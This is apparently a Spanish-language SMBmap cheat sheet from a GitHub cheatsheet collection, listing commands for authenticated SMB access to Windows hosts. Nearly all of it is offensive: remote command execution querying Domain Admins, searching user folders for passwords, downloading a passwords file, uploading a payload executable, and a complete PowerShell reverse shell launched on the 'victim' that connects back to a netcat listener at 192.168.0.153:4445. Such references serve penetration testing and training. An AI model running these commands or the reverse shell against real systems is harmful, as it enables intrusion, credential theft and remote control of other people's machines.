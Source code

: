 # SMBmap Cheat Sheet

#### Comprueba si hay recursos compartidos en el host especificado con el nombre de usuario y la contraseña proporcionados
```
smbmap -u <Username> -p <Password> -H <IP-Address>
```

#### Ejecución de comandos
```
smbmap -u <Username> -p <Password> -d <Domain> -x 'net group "Domain Admins" /domain' -H <IP-Address>
```

#### Listar un recurso no recursivo (ls)
```
smbmap -u <Username> -p <Password> -H <IP-Address> -r 'C$\Users'
```

#### Listar un recurso de manera recursiva
```
smbmap -u <Username> -p <Password> -H <IP-Address> -R 'C$\Users'
```

#### Listado de unidades
```
smbmap -u <Username> -p <Password> -H <IP-Address> -L
```

#### Buscar algun contenido en archivos
```
smbmap -u <Username> -p <Password> -H <IP-Address> -F password --search-path 'C:\Users\wingus\AppData\Roaming'
```

#### Descargar un archivo
```
smbmap -u <Username> -p <Password> -H <IP-Address> --download 'C$\temp\passwords.txt'
```

#### Cargar un archivo
```
smbmap -u <Username> -p <Password> -H <IP-Address> --upload '/tmp/payload.exe C$\temp\payload.exe'
```

#### Eliminar un archivo remoto
```
smbmap -u <Username> -p <Password> -H <IP-Address> --delete 'C$\temp\msf.exe'
```

#### Generar una shell inversa
+ Para la victima
```
smbmap -u <Username> -p <Password> -d <Domain> -H <IP-Address> -x 'powershell -command "function ReverseShellClean {if ($c.Connected -eq $true) {$c.Close()}; if ($p.ExitCode -ne $null) {$p.Close()}; exit; };$a=""""192.168.0.153""""; $port=""""4445"""";$c=New-Object system.net.sockets.tcpclient;$c.connect($a,$port) ;$s=$c.GetStream();$nb=New-Object System.Byte[] $c.ReceiveBufferSize  ;$p=New-Object System.Diagnostics.Process  ;$p.StartInfo.FileName=""""cmd.exe""""  ;$p.StartInfo.RedirectStandardInput=1  ;$p.StartInfo.RedirectStandardOutput=1;$p.StartInfo.UseShellExecute=0  ;$p.Start()  ;$is=$p.StandardInput  ;$os=$p.StandardOutput  ;Start-Sleep 1  ;$e=new-object System.Text.AsciiEncoding  ;while($os.Peek() -ne -1){$out += $e.GetString($os.Read())} $s.Write($e.GetBytes($out),0,$out.Length)  ;$out=$null;$done=$false;while (-not $done) {if ($c.Connected -ne $true) {cleanup} $pos=0;$i=1; while (($i -gt 0) -and ($pos -lt $nb.Length)) { $read=$s.Read($nb,$pos,$nb.Length - $pos); $pos+=$read;if ($pos -and ($nb[0..$($pos-1)] -contains 10)) {break}}  if ($pos -gt 0){ $string=$e.GetString($nb,0,$pos); $is.write($string); start-sleep 1; if ($p.ExitCode -ne $null) {ReverseShellClean} else {  $out=$e.GetString($os.Read());while($os.Peek() -ne -1){ $out += $e.GetString($os.Read());if ($out -eq $string) {$out="""" """"}}  $s.Write($e.GetBytes($out),0,$out.length); $out=$null; $string=$null}} else {ReverseShellClean}};"'
```
+ En el atacante
```
nc -l 4445
```

---

[:arrow_left: Regresar](https://github.com/m4lal0/cheatsheets)